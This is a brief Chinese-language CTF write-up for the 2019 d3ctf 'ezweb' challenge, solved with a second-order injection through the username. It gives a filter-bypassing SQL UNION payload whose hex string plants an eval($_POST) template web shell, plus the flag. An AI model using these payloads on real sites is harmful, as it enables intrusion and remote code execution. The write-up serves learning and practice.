 # d3ctf

疯狂涨姿势，就很nice

## wp

 https://github.com/wqmsybpw/wqmsybpw.github.io/blob/1401b571d975fec748a84a47691e468187a80ef8/_posts/2019-11-25-2019d3ctf-writeup.md 

 [https://nikoeurus.github.io/2019/11/26/D%5E3ctf-Web/](https://nikoeurus.github.io/2019/11/26/D^3ctf-Web/) 

 https://www.anquanke.com/post/id/193939#h3-4 



## web

### ezweb



![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g97tefki11j30ao01s743.jpg)

和username有关?

x  注册一个用户名为:`*/echo 1231231231;/*`的用户

二次注入,User 的index方法调用get_view

![image.png](http://ww1.sinaimg.cn/large/006pWR9aly1g985asdayuj30pm027dfx.jpg)



![image.png](http://ww1.sinaimg.cn/large/006pWR9aly1g985c901tuj30u208vmxr.jpg)



利用替换{来绕过select 和 union的过滤,利用0x....来绕过{的过滤

最后的payload

注册一个用户名为`aaa' unio{n selec}t 0x7B7B7068707D7D6576616C28245F504F53545B615D293B7B7B2F7068707D7D limit 1,1#`成功拿到shell权限







 d3ctf{Th4at's_A_Si11y_P0p_chi4n} 





###  fakeonlinephp

报错
